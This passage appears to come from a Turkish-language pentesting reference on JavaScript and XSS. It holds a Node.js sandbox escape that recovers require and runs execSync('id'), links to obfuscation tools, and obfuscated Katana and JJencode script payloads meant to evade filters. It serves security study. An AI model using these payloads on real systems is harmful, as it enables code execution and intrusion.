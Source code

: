 ```javascript
}
}
function trigger() {
const err = new CustomError()
console.log(err.stack[0])
for (const x of err.stack) {
// use x.getFunction() to get the upper function, which is the one that Node.js adds a wrapper to, and then use arugments to get the parameter
const fn = x.getFunction()
console.log(String(fn).slice(0, 200))
console.log(fn?.arguments)
console.log("=".repeat(40))
if ((args = fn?.arguments)?.length > 0) {
req = args[1]
console.log(req("child_process").execSync("id").toString())
}
}
}
trigger()
```
### Obfuscation & Advanced Bypass

- **Bir sayfadaki farklı obfuscations:** [**https://aem1k.com/aurebesh.js/**](https://aem1k.com/aurebesh.js/)
- [https://github.com/aemkei/katakana.js](https://github.com/aemkei/katakana.js)
- [https://ooze.ninja/javascript/poisonjs](https://ooze.ninja/javascript/poisonjs)
- [https://javascriptobfuscator.herokuapp.com/](https://javascriptobfuscator.herokuapp.com)
- [https://skalman.github.io/UglifyJS-online/](https://skalman.github.io/UglifyJS-online/)
- [http://www.jsfuck.com/](http://www.jsfuck.com)
- Daha sofistike JSFuck: [https://medium.com/@Master_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce](https://medium.com/@Master_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce)
- [http://utf-8.jp/public/jjencode.html](http://utf-8.jp/public/jjencode.html)
- [https://utf-8.jp/public/aaencode.html](https://utf-8.jp/public/aaencode.html)
- [https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)
```javascript
//Katana
<script>
([,ウ,,,,ア]=[]+{}
,[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()
</script>
```

```javascript
//JJencode
<script>$=~[];$={___:++$,$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$:({}+"")[$],$_$:($[$]+"")[$],_$:++$,$_:(!""+"")[$],$__:++$,$_$:++$,$__:({}+"")[$],$_:++$,$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$=($.$+"")[$.__$])+((!$)+"")[$._$]+($.__=$.$_[$.$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$=$.$+(!""+"")[$._$]+$.__+$._+$.$+$.$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$+"\""+$.$_$_+(![]+"")[$._$_]+$.$_+"\\"+$.__$+$.$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>
```
